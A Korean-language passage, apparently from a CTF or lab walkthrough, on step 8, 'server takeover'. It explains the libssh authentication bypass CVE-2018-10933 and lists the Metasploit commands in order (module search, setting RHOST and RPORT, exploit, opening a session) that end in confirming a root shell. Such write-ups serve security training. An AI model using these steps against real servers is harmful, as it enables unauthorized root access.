 SSH 연결을 시도하여, 어플리케이션 이름과 버전을 확인한다.

***

### 8) 서버 장악

**힌트**
CVE-2018-10933은 libssh 라이브러리의 치명적인 인증 우회 취약점.

공격자는 비밀번호나 키 없이도 SSH 인증을 우회하여 루트 쉘을 획득할 수 있다.

libssh는 내부적으로 SSH2_MSG_USERAUTH_SUCCESS 메시지를 클라이언트 → 서버 방향으로 처리해버림.

즉, 공격자가 서버에게 "나 인증됐음!" 이라고 말하면 서버가 그걸 믿어버림.

```sh
msfconsole
```
메타스플로잇 실행시켜서 콘솔 열어주기

```sh
search libssh
```
libssh 찾고

```sh
use 0
```
0번 리스트에 있다.

```sh
set RHOST ip주소
```
ip 주소를 설정하고,

```sh
set RPORT 포트번호
```
포트 번호를 설정하고,

```sh
set SPAWN_PTY true
```
익스플로잇이 성공했을 때 가상 터미널(PTY) 을 생성해준다.

```sh
exploit
```
프로그램 시작

```sh
sessions -i 1
```
익스플로잇을 성공하고 세션에 연결

```sh
id
```
입력 시, root임을 확인.

결과적으로, CVE-2018-10933을 이용하여 공격자 서버를 장악 성공
